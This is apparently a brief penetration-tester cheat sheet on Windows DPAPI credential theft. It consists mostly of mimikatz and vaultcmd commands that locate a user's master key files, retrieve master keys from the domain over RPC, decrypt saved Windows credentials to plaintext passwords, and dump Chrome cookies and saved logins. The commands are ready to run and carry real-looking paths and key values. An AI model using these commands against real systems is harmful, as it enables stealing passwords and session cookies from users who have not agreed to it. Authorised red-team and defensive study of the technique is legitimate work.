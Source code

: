 ### DPAPI
The MasterKey information is stored in C:\Users\<user>\AppData\Roaming\Microsoft\Protect\<user sid> 
The next step is to retrieve the actual MasterKey from the Domain 
```
shell vaultcmd /listcreds:"Windows Credentials" /all
mimikatz !sekurlsa::dpapi

ls C:\Users\NyaMeeEain\AppData\Roaming\Microsoft\Protect
ls C:\Users\NyaMeeEain\AppData\Roaming\Microsoft\Protect\S-1-5-21-3865823697-1816233505-1834004910-1132

mimikatz dpapi::masterkey /in:C:\Users\NyaMeeEain\AppData\Roaming\Microsoft\Protect\S-1-5-21-3865823697-1816233505-1834004910-1132\dd536ce3-5253-496a-a699-03b9f5d86d34 /rpc
mimikatz dpapi::masterkey /in:C:\Users\NyaMeeEain\AppData\Roaming\Microsoft\Protect\S-1-5-21-3865823697-1816233505-1834004910-1132\fcf4f725-0947-4180-a924-bc9da9ed8910 /rpc

```
Upong Obtianing The Correct The Materkey, final Step is to obtain The Pain Text Password.
```

mimikatz dpapi::cred /in:C:\Users\NyaMeeEain\AppData\Local\Microsoft\Credentials\5DD604C1E108746934B92E2A20318758 /masterkey:2b9b298b073b07ec368cc7e440e00dcb3e42db2644a73f729fc7555d3064201d04d0cc613afbb6c5e304b5d4f290c565a77248db32401b3264ac6103261a9c1b
mimikatz dpapi::cred /in:C:\Users\NyaMeeEain\AppData\Local\Microsoft\Credentials\CEB02D292305299EAF4AAC14CDDAA067 @masterkey:b72f8f914416c21f107513c7b49fdea79bfab318891171891d09c552b435c88cb3e56406a5f54d99c74e5ca78d5bc3895231fd215f2e55e72583c30156431996
```
### Chrome
```
dpapi::chrome /in:"C:\Users\NyaMeeEain\AppData\Local\Google\Chrome\User Data\Default\Cookies"
dpapi::chrome /in:"C:\Users\NyaMeeEain\AppData\Local\Google\Chrome\User Data\Default\Login Data" /unprotect
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect

```
